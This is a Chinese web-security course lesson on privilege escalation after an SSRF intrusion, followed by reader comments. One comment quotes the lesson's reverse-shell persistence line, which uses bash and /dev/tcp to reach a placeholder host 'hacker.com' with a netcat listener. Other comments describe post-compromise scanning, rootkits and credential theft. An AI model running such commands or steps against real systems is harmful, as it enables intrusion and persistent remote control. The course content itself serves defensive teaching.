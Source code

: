 你好，我是何为舟。

我在Web安全的前6讲中，给你讲解了各种漏洞的产生和防护方法，比如：XSS、SQL注入、CSRF、SSRF和插件漏洞。除了这些漏洞之外，我也着重强调了一点，黑客善于通过“蛛丝马迹”推断出代码逻辑，然后发起攻击。学习了这些内容，在实际工作的过程中，我们其实就能基本避免大部分的Web安全问题了。但是，有一天，我又遇到了新的问题。

某一天，当我在进行日常审计的时候，突然发现内网有黑客的操作痕迹。于是，我马上对黑客的攻击路径进行溯源。最后发现黑客是通过某个应用的SSRF漏洞进入的。

之前我们提到过，SSRF通常用来作内网探测，那么黑客是如何通过SSRF拿到服务器权限的呢？更神奇的是，这个存在SSRF漏洞的应用，在排查的时候早已经下线了。那么，黑客是如何在漏洞已经下线的情况下，仍然能够进出内网呢？

## 权限提升：为什么黑客能通过SSRF拿到服务器权限？

首先，我们先来搞清楚，黑客是如何通过SSRF拿到服务器权限的。在解决这个问题之前，我们先来了解一个概念，权限提升。

在应用或系统中，黑客或者被黑客控制的用户，通常会通过漏洞攻击或者利用弱密码，获取到其他用户的权限。在获取了新的用户权限之后，黑客就能够以新用户的身份去窃取和篡改数据，进行非法的操作了。这就是**权限提升**（Privilege Escalation）。也就是说，黑客可以通过不断获取新的身份，来不断扩大（或者叫提升）自己的权限，不断扩大攻击影响，最终实现控制整个系统。
<div><strong>精选留言（16）</strong></div><ul>
<li><img src="https://static001.geekbang.org/account/avatar/00/11/47/31/f35367c8.jpg" width="30px"><span>小晏子</span> 👍（15） 💬（1）<div>有了内网服务器上的普通用户的权限，意味着我能拿到这个服务器上的代码，那么可以反编译他的代码获取代码里的各种漏洞，还可以进行内网探测，用ssh扫描所有内网服务器，试着进行权限提升，获取管理员权限，之后就好比在自己的服务上想干什么就干什么了，再做权限持久化，下个rootkit什么的方便下次进入。另外获取了他的代码也意味着能拿到他的数据存储的用户名密码，就可以获取他所有的用户数据等。</div>2020-01-03</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/12/65/c1/afcd981b.jpg" width="30px"><span>程序员二师兄</span> 👍（11） 💬（3）<div>“比如说，黑客在进入服务器之后，会留下下面这样一个脚本，让这个脚本，每分钟都执行一次：bash -i &gt;&amp; &#47;dev&#47;tcp&#47;hacker.com&#47;8080 0&gt;&amp;1这个脚本运行后，只要 hack.com 的 8080 端口打开，那么服务器就会通过 TCP 获取 8080 端口返回的命令并执行。因此，只要黑客任意时刻在 hacker.com 中监听 8080 端口（比如通过 nc -l 8080），就可以获得服务器定时送上来的命令执行权限。”
我是一个安全小白，这段话没太看明白，自己现在有两台服务器，想模拟上面讲的这个命令，这个要怎么操作呢？</div>2020-03-27</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/12/08/ab/caec7bca.jpg" width="30px"><span>humor</span> 👍（5） 💬（1）<div>既然Windows会有后门，那Linux会不会也有后门呀？我们怎么能够检测出来Linux是否有后门呢？</div>2020-01-14</li><br/><li><img src="http://thirdwx.qlogo.cn/mmopen/vi_32/Q0j4TwGTfTKhuGLVRYZibOTfMumk53Wn8Q0Rkg0o6DzTicbibCq42lWQoZ8lFeQvicaXuZa7dYsr9URMrtpXMVDDww/132" width="30px"><span>hello</span> 👍（5） 💬（1）<div>老师，请教个问题，针对文件服务器，针对上传的文件类型进行白名单校验（魔数），然后存储时对文件进行了加密，那么针对文件服务器上传下载还有其它安全防护手段吗？对文件进行加密能否规避植入“后门”？</div>2020-01-03</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/0f/eb/d3/b0dc0d00.jpg" width="30px"><span>二马</span> 👍（2） 💬（1）<div>1、在进行日常审计的时候，突然发现内网有黑客的操作痕迹。
请问是怎么发现操作痕迹的，有哪些痕迹，谢谢！

2、只要黑客任意时刻在 hacker.com 中监听 8080 端口（比如通过 nc -l 8080），就可以获得服务器定时送上来的命令执行权限。
内网的服务器主动访问互联网不是只允许访问指定网站嘛，或者是主动访问外部采取白名单的方式是否能有效预防这类后门攻击。
最小权限原则包括用户层面、程序（进程）层面和服务器（IP）层面，如这台服务器在内网横向能访问哪些服务器和被哪些服务器访问，纵向能访问哪些互联网服务器。</div>2020-01-04</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/0f/85/49/585c69c4.jpg" width="30px"><span>皮特尔</span> 👍（1） 💬（1）<div>虽然限于篇幅，很多问题没有深入展开，但满满的都是干货。师傅领进门，修行在个人。给老师点赞👍</div>2020-05-22</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/0f/eb/d3/b0dc0d00.jpg" width="30px"><span>二马</span> 👍（1） 💬（1）<div>老师好，在服务器性能异常才能发现，这属于被动发现，根据排查描述，是发现其攻击的轨迹，攻击过程是有蛛丝马迹的，可能是从日志分析出来的。那是否能做到事前发现，比如定期分析日志中ssh，数据库连接等高危操作端口的日志，对比排查服务器权限，是否有横向扩大的迹象。在这属于审计工作，实现是否困难。</div>2020-01-10</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/13/2f/f4/2dede51a.jpg" width="30px"><span>小老鼠</span> 👍（1） 💬（1）<div>如何测试系统中是否存在权限提升和持久化漏洞？</div>2020-01-05</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/1c/fb/19/583cd804.jpg" width="30px"><span>此心如水只東流</span> 👍（0） 💬（2）<div>老师，黑客进入系统后不会擦出痕迹吗？我们可以通过什么方法检查出系统有没有被黑客入侵呢？</div>2020-07-02</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/13/2f/f4/2dede51a.jpg" width="30px"><span>小老鼠</span> 👍（0） 💬（1）<div>点击挟持为什么不讲</div>2020-01-05</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/18/47/fd/895f0c27.jpg" width="30px"><span>Cy23</span> 👍（0） 💬（1）<div>实现细节不够详细，需要扩展研究攻击手段细节</div>2020-01-04</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/10/f6/0d/e16dff4e.jpg" width="30px"><span>瑞泉</span> 👍（5） 💬（6）<div>我一直没搞明白怎么才能获取普通用户权限，通过xss csrf sql注入感觉最多只能获取数据，请老师解惑，十分感谢！</div>2020-01-03</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/21/ad/9b/c84b436e.jpg" width="30px"><span>相见甚欢</span> 👍（0） 💬（0）<div>想请教下，有什么可以实现IDS（Intrusion Detection System，入侵检测系统）的软件吗？或者现在的大厂是怎么做这块的？</div>2021-01-25</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/12/d0/78/a11a999d.jpg" width="30px"><span>COOK</span> 👍（0） 💬（0）<div>原来IDS是从行为来分析威胁异常的。</div>2020-03-23</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/19/e3/d7/d7b3505f.jpg" width="30px"><span>官</span> 👍（0） 💬（0）<div>有了服务器权限，可以扫描整个内网的服务器，然后大概知道整个服务器的文件系统架构，后面真可以为所欲为了，比如可以加密某些重要代码敲诈公司，亦或者把库拖下来卖个人信息等等，最近这种案例真是屡见不鲜。</div>2020-03-19</li><br/><li><img src="https://static001.geekbang.org/account/avatar/00/16/51/50/f5f2a121.jpg" width="30px"><span>律飛</span> 👍（0） 💬（0）<div>有了内网服务器上的普通用户的权限，意味着我能登录服务器，可以用多种方法尝试提升权限，比如，通过活动目录、反编译代码、内网探测等多种方法。一旦获取管理员权限，就可以做权限持久化，放个Muma、下个rootkit什么的方便下次进入。另外获取了他的代码也意味着能拿到他的数据存储的用户名密码，就可以获取他所有的用户数据等。</div>2020-01-16</li><br/>
</ul>